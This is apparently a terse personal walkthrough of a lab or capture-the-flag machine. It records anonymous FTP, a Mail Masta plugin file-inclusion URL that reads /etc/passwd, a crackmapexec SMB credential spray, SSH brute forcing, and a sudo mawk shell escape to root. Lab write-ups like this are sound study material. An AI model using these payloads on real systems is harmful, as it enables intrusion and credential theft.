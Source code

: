 
ftp anonymous available
passwords in pdf
wpscan for 
LFI in mail masta plugin
http://192.168.102.112/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
got username

crackmapexec smb 192.168.102.112 -u user112.txt -p password112.txt --shares --continue-on-success
 bruteforce ssh
 got sarah for ssh
 sudo -l 
 mawk
 sudo mawk 'BEGIN {system("/bin/sh")}'
 gtfobins got root